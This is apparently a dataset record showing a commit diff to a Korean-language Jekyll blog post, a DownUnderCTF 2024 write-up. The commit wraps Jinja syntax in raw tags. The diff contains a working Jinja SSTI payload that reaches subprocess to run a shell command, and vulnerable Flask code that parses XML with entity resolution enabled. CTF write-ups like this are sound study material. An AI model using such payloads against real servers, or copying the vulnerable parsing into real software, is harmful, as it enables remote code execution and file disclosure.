

Before and after one commit to jiniljeil/jiniljeil.github.io, a Jekyll site: the page built from _posts/2024-07-05-DownUnderCTF.md, in a window 1280 px wide and 1400 px high, scrolled down 1754 px. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
DownUnderCTF

````diff
--- a/_posts/2024-07-05-DownUnderCTF.md
+++ b/_posts/2024-07-05-DownUnderCTF.md
@@ -61,13 +61,15 @@ if __name__ == '__main__':
 
 ```
 
-`render_template_string()` 함수는 SSTI 취약점을 가지고 있어 RCE를 해주면 된다.
+`render_template_string()` 함수에 사용자 입력이 직접적으로 들어가기 때문에 SSTI 취약점이 발생한다.
 
 ### Exploit Code
 
+{% raw %}
 ```python
 {{ ''.__class__.__mro__[1].__subclasses__()[213]("grep -r 'DUCTF' *", shell=True,stdout=-1).communicate()}}
 ```
+{% endraw %}
 
 ### Flag
 DUCTF{PaRrOt_EmU_ReNdErS_AnYtHiNg}
@@ -92,11 +94,11 @@ def index():
             parser = etree.XMLParser(resolve_entities=True)
             root = etree.fromstring(xml_data, parser=parser)
         except etree.XMLSyntaxError as e:
-            return render_template_string('<div style="color:red;">Error parsing XML: {{ error }}</div>', error=str(e))
+            return render_template_string('<div style="color:red;">Error parsing XML: {% raw %}{{ error }}{% endraw %}</div>', error=str(e))
         feedback_element = root.find('feedback')
         if feedback_element is not None:
             feedback = feedback_element.text
-            return render_template_string('<div style="color:green;">Feedback sent to the Emus: {{ feedback }}</div>', feedback=feedback)
+            return render_template_string('<div style="color:green;">Feedback sent to the Emus: {% raw %}{{ feedback }}{% endraw %}</div>', feedback=feedback)
         else:
             return render_template_string('<div style="color:red;">Invalid XML format: feedback element not found</div>')
 
@@ -599,8 +601,8 @@ def report():
 ```html
 <div class="card">
     <div class="card-body">
-        <h5 class="card-title"><a href="/blog/{{blog.id}}">{{blog.title}}</a></h5>
-        <p class="card-text">{{blog.content[:100]}}...</p>
+        <h5 class="card-title"><a href="/blog/{% raw %}{{blog.id}}{% endraw %}">{% raw %}{{blog.title}}{% endraw %}</a></h5>
+        <p class="card-text">{% raw %}{{blog.content[:100]}}{% endraw %}...</p>
     </div>
 </div>
 ```
````
